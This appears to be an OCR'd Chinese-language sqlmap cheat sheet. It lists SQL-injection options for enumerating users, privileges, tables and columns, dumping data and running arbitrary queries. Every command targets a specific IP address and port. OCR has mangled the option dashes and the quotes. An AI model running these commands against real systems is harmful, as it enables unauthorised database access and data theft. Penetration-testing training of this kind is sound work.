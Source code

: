 > **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -D database_name**

1. ##### —current-user ： 查询当前数据库用户

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —current-user**

1. ##### —current-db ： 查询当前数据库

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —current-db**

1. ##### —hostname ： 查看服务器的主机名

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hostname**

1. ##### —Privileges -U username ： 查询username的权限

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —Privileges -U username**

1. ##### —roles ：查询角色

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —roles**

1. ##### —tables ： 查看所有的表

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —tables**

1. ##### -T ： 指定表

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -T table_name**

1. ##### —columns ： 查看所有的字段

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —columns**

1. ##### -C ： 指定字段

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -C column_name**

1. ##### —count ： 计数，查看有多少条数据

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —count**

1. ##### —exclude-sysdbs ： 排除系统库

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —exclude-sysdbs**

1. ##### —dump ： 查看数据

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —dump**

1. ##### —start 3 ： 查看第三条

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —start 3**

1. ##### —end 4 ： 查看第四条

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —end 4**

1. ##### —sql-query “select * from users” ： 执行语句

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-query “select \* from users”**

1. ##### —common-columns ： 暴力破解字段，应用于两种情况：①无权限读取数据。②mysql<5.0 ，没有infomation_schema库

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —common-columns**
